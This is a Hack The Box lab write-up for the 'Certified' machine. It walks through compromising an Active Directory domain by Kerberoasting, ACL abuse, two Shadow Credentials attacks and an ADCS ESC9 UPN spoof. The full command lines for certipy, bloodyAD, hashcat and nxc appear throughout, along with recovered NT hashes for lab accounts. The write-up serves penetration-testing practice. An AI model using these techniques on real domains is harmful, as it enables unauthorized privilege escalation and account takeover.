| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Rooted |
| **Key techniques** | Targeted Kerberoast (dead-end, rotated), `WriteOwner` → self-`GenericAll` → group membership, **Shadow Credentials** (×2), ADCS **ESC9** (`NoSecurityExtension` + UPN spoof) |

---

## TL;DR

Certified starts with `judith.mader:judith09` and turns into a
pure-ACL/ADCS chain. Targeted Kerberoast on `management_svc` produces a
hash that will not crack against rockyou + rules, so I **rotate to ACL
abuse** instead of grinding it (that is a decision, not a failure).
Judith is the owner of group `management`, and `management` has
`GenericWrite` over `management_svc`, so I grant myself `GenericAll` on
the group (owner privilege), add myself as a member, then run
**Shadow Credentials** against `management_svc` for its NT hash.
`management_svc` sits in `Remote Management Users` so WinRM works
(WMI does not, different rights). BloodHound then shows
`management_svc` has `GenericAll` on `ca_operator`. A second Shadow
Credentials attack yields `ca_operator`'s NT hash. Certipy flags the
`CertifiedAuthentication` template as **ESC9** (`NoSecurityExtension`
flag). The exploit path is: as `management_svc` (who has `GenericAll`
on `ca_operator`), rewrite `ca_operator`'s `userPrincipalName` to
`administrator@certified.htb`, request a cert as `ca_operator`, then
authenticate, the KDC maps the cert to `administrator` because the
cert has no security extension carrying the original SID. There is one
last certipy v5.1.0 quirk that made auth fail with a name-mismatch
until I restored the UPN, then re-authenticated with the cert. I
document that honestly. I do not pretend to know the exact mechanism.
Final Administrator NT hash lands the box.

---

## Recon

```bash
nmap -p- -A -T4 10.129.231.186
```



Standard DC signature, DNS, Kerberos, SMB, LDAP/LDAPS, GC, WinRM,
.NET Remoting on 9389. Domain `certified.htb`, host `dc01.certified.htb`,
Windows Server 2022. `/etc/hosts` update so Kerberos service tickets
resolve to the right hostname later:

```bash
echo "10.129.231.186 dc01.certified.htb certified.htb" | sudo tee -a /etc/hosts
```



Given credentials: **`judith.mader:judith09`** (assumed-breach start).

---

## BloodHound — the map

```bash
bloodhound-python -u judith.mader -p judith09 -d certified.htb \
  -c All -ns 10.129.231.186
```



Marked `judith.mader@CERTIFIED.HTB` as **Owned** and ran *Shortest
paths from owned*, the whole box drops out of one query:



Two things worth noting before pulling any command:

- `judith.mader` **owns** the group `management`, but is **not a member**.
  Ownership carries an implicit right to modify DACLs, which the graph
  represents as a `WriteOwner`-flavoured edge.
- The group `management` has `GenericWrite` on the user `management_svc`.

That is important because it lets me plan the whole first half before
touching anything:

```
judith.mader ──owns──▶ management ──GenericWrite──▶ management_svc
```

To use the `GenericWrite`, I need to be a **member** of `management`,
not just its owner. The owner edge does not directly give me the
target's ACE. It gives me the right to change the group's DACL, which
I then use to grant myself the rights I want.

---

## Step 1 — Targeted Kerberoast on `management_svc` (dead end)

Before touching the ACL chain I tried the cheap option first. `management`
has `GenericWrite` on `management_svc`, and `GenericWrite` on a user is
enough to set a `servicePrincipalName`, which means a **targeted
Kerberoast** is available as soon as I am a member. But I can also
Kerberoast anything that already has an SPN as any authenticated user,
so I ran the whole-domain version first:


```bash
python3 targetedKerberoast.py -d certified.htb -u judith.mader -p judith09
```



Hashcat, RC4 TGS-REP (`-m 13100`) against rockyou:

```bash
hashcat -m 13100 management_svc.hash /usr/share/wordlists/rockyou.txt
```



**Exhausted.** The box path is elsewhere and I already have a working
plan through the ACL edges. **This is a rotation, not a failure**: on
the exam clock, a straight rockyou run is the whole budget for a
service-account password. If it does not fall, I stop and take the
ACL path that is already sitting in BloodHound.

---

## Step 2 — Own → self-`GenericAll` → group membership

Judith owns `management`. Owners can rewrite the object's DACL, so
I use `bloodyAD` to grant myself an explicit `GenericAll` ACE on
the group first, then add myself as a member.

Why two calls instead of one `Add-DomainGroupMember`? Because
"owner" and "member" are not the same thing to
`SAMR_QUERY_INFORMATION_GROUP` / `SAMR_ADD_MEMBER_TO_GROUP`, the
SAMR write path checks the group's DACL for a write-members ACE for
the caller's SID, not "is caller the owner of this object". So I
need the explicit `GenericAll` (which includes `WriteMembers`) on
the DACL before the second call can succeed.

```bash
# 1. Owner privilege → self-grant GenericAll on the group DACL
bloodyAD --host dc01.certified.htb -d certified.htb \
  -u judith.mader -p judith09 \
  add genericAll management judith.mader
```



```bash
# 2. Now I have WriteMembers → add myself
bloodyAD --host dc01.certified.htb -d certified.htb \
  -u judith.mader -p judith09 \
  add groupMember management judith.mader
```



### Retry pattern — sanity check before assuming success

The first `add groupMember` returned silently. **I did not verify** the
membership before moving on, hit an unrelated error a couple of steps
later, and worked backwards to find that the membership had not
actually applied on the first call (probably a replication / caching
quirk with the DC's LDAP handling. The second call, straight after,
worked).



**Lesson worth writing down:** after any AD write, do the ~2-second
read-back before spending 20 minutes on the next tool. A single
`bloodyAD ... get object management --attr member` between the write
and the next action would have caught this immediately.

```bash
bloodyAD --host dc01.certified.htb -d certified.htb \
  -u judith.mader -p judith09 \
  get object management --attr member
```

---

## Step 3 — Shadow Credentials on `management_svc`

Now that I am a member of `management`, the `GenericWrite` edge on
`management_svc` is live for me. `GenericWrite` includes the right to
edit `msDS-KeyCredentialLink`, which is exactly the primitive
Shadow Credentials abuses.

**Concept.** Shadow Credentials was described by Elad Shamir / Charlie
Clark (2021). The `msDS-KeyCredentialLink` attribute on a user or
computer object holds public keys used for **PKINIT** authentication
(Windows Hello for Business, primarily). If I can write that
attribute, I add my own key, then use PKINIT to obtain a TGT for the
target account. No password reset, no observable event on the target,
and the target's original password/hash keeps working, the victim
does not notice they were had.

`certipy-ad shadow auto` does the whole dance: generate keypair, patch
`msDS-KeyCredentialLink`, request a TGT with PKINIT, extract the NT
hash from the TGT's PAC, and (optionally) clean up the attribute:

```bash
certipy-ad shadow auto \
  -u judith.mader -p judith09 \
  -account management_svc \
  -dc-ip 10.129.231.186
```



**NT hash `management_svc`:** `a091c1832bcdd4677c28b5a6a1295584`.

Quick sanity check with `nxc`:

```bash
nxc winrm 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```



**`Pwn3d!`**. WinRM works because `management_svc` is in the
`Remote Management Users` group.

### WinRM works, WMI does not — and this matters

While setting up the shell I also tried `impacket-wmiexec`. It fails
with `WBEM_E_ACCESS_DENIED`:

```bash
impacket-wmiexec -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  certified.htb/management_svc@10.129.231.186
# rpc_s_access_denied / WBEM_E_ACCESS_DENIED
```

**Why:** WinRM (5985/5986) and WMI/DCOM (135 + high-port ephemeral) are
two completely different protocols with separate authorization surfaces
inside `winmgmt` and the WSMan service. Group membership in **Remote
Management Users** grants access to WSMan's `Root\CIMV2` namespace via
WinRM, but WMI still checks the local **DCOM launch/activation
permissions** and the CIMV2 namespace ACLs, which are typically
`Administrators`-only. Same account, same hash, different door,
different bouncer.

Take-away: if `wmiexec` fails with `WBEM_E_ACCESS_DENIED` but WinRM
authenticates, you are not looking at a credential problem. You are
looking at a rights-scope mismatch. Do not tunnel. Use the door
that is open.

### evil-winrm bug (documented for the archive)

While cycling shells I hit an unrelated runtime bug in evil-winrm:

```
NameError: uninitialized constant Net::NTLM::Client::SessionCrypto::CLIENT_TO_SERVER_SEALING
```

That is a rubyntlm gem version mismatch on the current Kali image.
Fix in one line:

```bash
sudo gem install rubyntlm -v 0.6.3
```

I did not need it, `nxc winrm` and `impacket-psexec` were fine, so I
moved on. Noting it here so future-me does not lose 10 minutes on it.

---

## Step 4 — WinRM as `management_svc`, `user.txt`

```bash
nxc winrm 10.129.231.186 -u management_svc \
  -H a091c1832bcdd4677c28b5a6a1295584 \
  -x "whoami; type C:\Users\management_svc\Desktop\user.txt"
```




---

## Step 5 — `management_svc` → `ca_operator`, Shadow Credentials again

Re-ran BloodHound as `management_svc` and the next edge is right
there: `management_svc` has `GenericAll` on `ca_operator`.
`GenericAll` includes `WriteProperty` on `msDS-KeyCredentialLink`, so
Shadow Credentials is the reflex, no need to try a password reset
first (the box's whole theme is ADCS, and I want a certificate path,
not a fresh password to type).

```bash
certipy-ad shadow auto \
  -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -account ca_operator \
  -dc-ip 10.129.231.186
```



**NT hash `ca_operator`:** `b4b86f45c6018f1b664f70805f45d8f2`.

Two identities in hand:
- `management_svc`, `GenericAll` on `ca_operator`.
- `ca_operator`, the account that is enrollable on the interesting
  template (about to be discovered).

---

## Step 6 — ADCS enumeration → ESC9

`certipy-ad find -vulnerable` is the reflex for any AD box the moment
there is any suggestion of a CA. Run it as `ca_operator`:

```bash
certipy-ad find -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -dc-ip 10.129.231.186 -vulnerable -stdout
```



The interesting hit is the template **`CertifiedAuthentication`**:

- **Enrollment Rights:** `CERTIFIED.HTB\operator ca` (i.e. `ca_operator`
  is allowed to request a certificate for this template).
- **Enrollment Flag:** `NoSecurityExtension`.
- **Vulnerability:** `ESC9 — No Security Extension`.



### ESC9, in one paragraph

Normally an enrolled certificate has an extension called
`szOID_NTDS_CA_SECURITY_EXT` (OID `1.3.6.1.4.1.311.25.2`) baked into
it by the CA. That extension carries the **SID** of the account the
CA authenticated when it issued the cert. When someone later
authenticates to the KDC with that cert (PKINIT), the KDC's cert
mapping logic uses the SID from that extension as the ground-truth
identity, the `userPrincipalName` on the cert is only cosmetic.

If a template has the **`NoSecurityExtension`** flag set (Enrollment
Flag `0x80000`), the CA does not embed that SID extension. The KDC
then falls back to **UPN mapping**. It reads the `SubjectAltName`
UPN from the certificate and looks up the AD user whose
`userPrincipalName` matches. So: if I can rewrite the UPN of an
account I control (or that I have `GenericAll` on) to
`administrator@certified.htb`, request a cert on the vulnerable
template as that account, then authenticate with the cert, the KDC
maps me to Administrator.

The gotcha: the UPN must match the target at the moment the KDC does
the lookup during authentication. Which is where the certipy quirk in
step 8 comes from.

---

## Step 7 — UPN rewrite (as `management_svc`, not `ca_operator`)

Before writing anything, current state:

```bash
certipy-ad account read -u management_svc -hashes :a091c1832... \
  -user ca_operator -dc-ip 10.129.231.186
```



Tried the naive path first, as `ca_operator` itself, rewriting its
own UPN. Fails cleanly:

> `SELF` write on `userPrincipalName` is not permitted for user objects
> unless an explicit `Self` ACE is present, which it is not here.

**Lesson:** self-write is not the same right as write-from-outside. AD
lets a user modify a handful of self-attributes by default (e.g.
`msDS-KeyCredentialLink` under `Self` ACEs) but `userPrincipalName`
requires either `Domain Admin` / `Account Operators` group membership
or an explicit `WriteProperty` on the attribute. My path is not
through `ca_operator`'s own rights. It is through `management_svc`'s
`GenericAll` on `ca_operator`, which gives me `WriteProperty` on
every attribute of that object.

Use the right identity:

```bash
certipy-ad account update \
  -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn administrator@certified.htb \
  -dc-ip 10.129.231.186
```



Verify from the outside:



---

## Step 8 — Enroll a fresh cert, authenticate, hit a certipy quirk

**Important detail up front:** the certificate must be requested
**after** the UPN change. The UPN is copied into the CSR at request
time. A `.pfx` produced before the change has the old UPN baked in
and does not map anywhere useful.

Request as `ca_operator` (the enrollable account) on the vulnerable
template:

```bash
certipy-ad req \
  -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA \
  -template CertifiedAuthentication \
  -dc-ip 10.129.231.186
```



The output `.pfx` is named `administrator.pfx` because certipy names
it after the UPN it sees in the CSR, and that UPN is now
`administrator@certified.htb`. Reassuring. The ESC9 primitive is
armed.

Now authenticate with the cert:

```bash
certipy-ad auth -pfx administrator.pfx \
  -domain certified.htb -dc-ip 10.129.231.186
```

This is where I hit a **certipy v5.1.0 quirk**:

> `Name mismatch between certificate and user 'administrator'`

The certificate SAN says `administrator@certified.htb`, the LDAP user
whose `userPrincipalName` is `administrator@certified.htb` right now
is `ca_operator` (because I rewrote it there). certipy's client-side
sanity check does not like that shape. What **actually worked** was
to restore `ca_operator`'s UPN back to `ca_operator@certified.htb`
first, **then** run `certipy-ad auth`:

```bash
# Restore ca_operator's UPN so the client-side check is happy
certipy-ad account update \
  -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn ca_operator@certified.htb \
  -dc-ip 10.129.231.186

# Auth with the cert requested during the spoof window
certipy-ad auth -pfx administrator.pfx \
  -domain certified.htb -dc-ip 10.129.231.186
```

Authenticating with the `ca_operator.pfx` (whose SAN UPN is
`ca_operator@certified.htb`) returns `ca_operator`'s own hash, a cert
maps strictly to whatever identity its SAN carries, which is exactly
why the `administrator`-SAN cert is the one that matters:



**Full disclosure:** I do not know for certain **why** certipy v5.1.0
needed the restore step. The two candidate explanations I considered
are (a) a client-side LDAP prefetch inside `certipy-ad auth` that
matches the SAN UPN back to an LDAP object before it even talks to
the KDC, and (b) a KDC-side detail I was not tracing. The KDC-side
one seems unlikely, once the TGT request is made, the KDC uses the
UPN present on the certificate at that moment, and by then I had
already requested the cert. Regardless: this is documented as an
empirical fix that unblocked the box, not as a confirmed mechanism.

**Administrator NT hash:** `0d5b49608bbce1751f708748f67e2d34`.

